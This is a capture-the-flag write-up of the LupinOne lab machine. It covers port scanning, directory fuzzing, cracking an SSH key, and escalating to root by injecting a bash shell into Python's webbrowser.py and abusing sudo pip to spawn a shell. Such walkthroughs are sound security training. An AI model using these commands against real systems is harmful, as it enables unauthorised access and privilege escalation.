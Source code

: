 ```yaml
---
layout: single
title: Writeup - Penetration Testing Phases:Scanning, Enumeration, and Exploitation
excerpt: "A detailed walkthrough of the scanning, enumeration, and exploitation phases during a penetration test, including the use of tools like Nmap, ffuf, and Metasploit."
date: 2024-10-24
classes: wide
header:
  teaser: /assets/images/vulnhub-lupinone-writeup/lupinone_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - WriteUp
#tags:
 # - Penetration Testing
  #- Nmap
  #- ffuf
  #- Metasploit
---
```

![](/assets/images/vulnhub-lupinone-writeup/lupinone_logo.png)

This writeup details the steps taken during the scanning, enumeration, and exploitation phases of a penetration test. The target machine is analyzed using tools like Nmap, ffuf, and Metasploit, leading to the discovery of hidden files, user enumeration, and privilege escalation.

## Summary

This writeup covers the following phases of a penetration test:
   - **Scanning**: Using Nmap to identify open ports and services running on the target machine.
   - **Enumeration**: Discovering hidden directories and files using ffuf and validating users with Metasploit.
   - **Exploitation**: Gaining access to the system via SSH using a decrypted private key and escalating privileges to root.

## Tools/Blogs Used

- **Nmap**: Used for port scanning and service enumeration.
- **ffuf**: Utilized for directory fuzzing and discovering hidden files.
- **Metasploit**: Employed for user enumeration.
- **John the Ripper**: Used to decrypt an SSH private key.
- **Python**: Exploited a Python script to escalate privileges.

---

## Phase 1: Scanning

Nmap is used to identify open ports and the services running on them. The following command is executed:

nmap -Pn -sV -O -p- -T4 -sC 10.0.0.5
![](/assets/images/vulnhub-lupinone-writeup/lupinone1.png)

## Phase 1: Scanning

The scan reveals two open ports:
   - **Port 22**: Running OpenSSH 8.4p1.
   - **Port 80**: Running Apache/2.4.48.

Additionally, the operating system is identified as a Linux version between 4.X and 5.X.

---

## Phase 2: Enumeration

### Initial Enumeration
From the initial Nmap scan, the `robots.txt` file is discovered, which includes the path `/~myfiles`. However, accessing this path results in a 404 error.
![](/assets/images/vulnhub-lupinone-writeup/lupinone2.png)

### Directory Enumeration
To gather more information, directory enumeration is performed using the following command:

nmap -sV -p80 --script=http-enum 10.0.0.5
This scan reveals two additional directories: /image/ and /manual/, though they do not contain relevant information.

### Fuzzing with ffuf
Since older versions of Apache use the tilde (~) to refer to a user's root directory, ffuf is used to fuzz the root directory:

ffuf -c -u http://10.0.0.5/~FUZZ -w /usr/share/wordlists/dirb/common.txt
This reveals an interesting path: /~secret, which contains a hint about a hidden SSH private key and a potential username, icex64.

### Hidden File Discovery
To find hidden files in the /~secret directory, the following command is executed:

ffuf -c -u http://10.0.0.5/~secret/.FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -fc 403 -e .txt,.html,.php,.js
This reveals a file named mysecret.txt. The existence of the user icex64 is confirmed using Metasploit's ssh_enumusers module:

use auxiliary/scanner/ssh/ssh_enumusers

### Decrypting the Hidden Message
The content of mysecret.txt is encrypted. Using dcode.fr, the message is identified as Base58 encoded. Decoding it reveals an OpenSSH private key, which is saved to key.txt.

### Cracking the SSH Key
The private key is password-protected. To crack it, ssh2john is used to extract the hash:

ssh2john key.txt > hash
John the Ripper is then used to crack the hash with the fasttrack wordlist:

john --wordlist=/usr/share/wordlists/fasttrack.txt hash
The password P@55w0rd! is successfully retrieved.

### Phase 3: Exploitation
### Gaining SSH Access
The permissions of key.txt are adjusted to prevent the "Unprotected Private Key" error:

chmod 700 key.txt
SSH access is then established using the private key and password:

ssh -i key.txt icex64@10.0.0.5
Finding the Flag
Once authenticated, the flag is located:

Flag: 3mp!r3{I_See_That_You_Manage_To_Get_My_Bunny}
Privilege Escalation
To escalate privileges, the following commands are executed to gather more information:

uname -a
sudo -l
A Python script named heist.py, owned by the user arsene, is discovered. The script uses the webbrowser library to open a URL. By editing the webbrowser.py file, a bash shell is injected:

nano /usr/lib/python3.9/webbrowser.py
The following line is added:

os.system("/bin/bash")
The script is then executed to gain access as the arsene user:

sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
Root Access
After gaining access as arsene, the .secret file is found, revealing the user's password. The pip binary is then exploited to escalate privileges to root:

TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
Root access is successfully obtained.

### Conclusion
This penetration test demonstrates the importance of thorough scanning, enumeration, and exploitation techniques. By leveraging tools like Nmap, ffuf, and Metasploit, and exploiting misconfigurations in scripts and binaries, full control of the target machine was achieved.

###References:

Nmap

ffuf

Metasploit

John the Ripper
